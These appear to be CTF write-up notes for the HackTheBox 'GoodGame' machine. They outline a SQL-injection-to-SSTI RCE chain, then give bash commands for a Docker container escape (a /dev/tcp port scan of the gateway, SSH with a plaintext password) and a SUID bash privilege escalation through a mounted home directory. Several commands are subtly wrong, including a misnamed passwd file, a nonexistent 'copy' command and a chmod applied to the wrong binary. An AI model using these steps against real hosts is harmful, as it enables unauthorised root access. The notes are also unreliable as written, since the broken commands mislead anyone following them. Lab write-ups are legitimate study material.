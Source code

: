 # Docker Escapes and Priviledge Escalation - HackTheBox University CTF "GoodGame"

**RCE**: vulnerable to sql injection -> using sqlmap--> logged in as admin --> vulnerable SSTI -> using subprocess --> *RCE*

## Docker Escapes
```bash
ip a s
#  eth0: 172.19.0.2/16

for PORT in {1..1000}; do timeout 1s bash -c "/dev/tcp/172.19.0.1/$PORT" > /dev/null; done # 172.19.0.1: docker gateway
# Port 22 SSH(come through, not connection refuse)

# SSH require interactive shell --> stabelize it
# with the password we got before, ssh to host docker machine.
ssh augustus@172.19.0.1
# Password: supperadministratorpassword

# We're now free from container
```
## Priviledge Escalation
**Still in the docker container**:
```bash
cat /etc/password
# Don't see augustus user
# => Still have augustus home directory => This home directory is being mount into this docker container

# Step to priv escala
# Step 1: Back to host docker machine
ssh augustus@172.19.0.1
# Password: supperadministratorpassword

# Step 2: Copy /bin/bash to augustus home directory(mounted to docker container)
copy /bin/bash /home/augustus

# Step 3: Back to docker container
exit

# Step 4: Because user in the container is root, SUID for /bin/bash
chmod +s /bin/bash

# Step 5: Back to host machine and run it
ssh augustus@172.19.0.1 # ....
/bin/bash
whoami # root
```
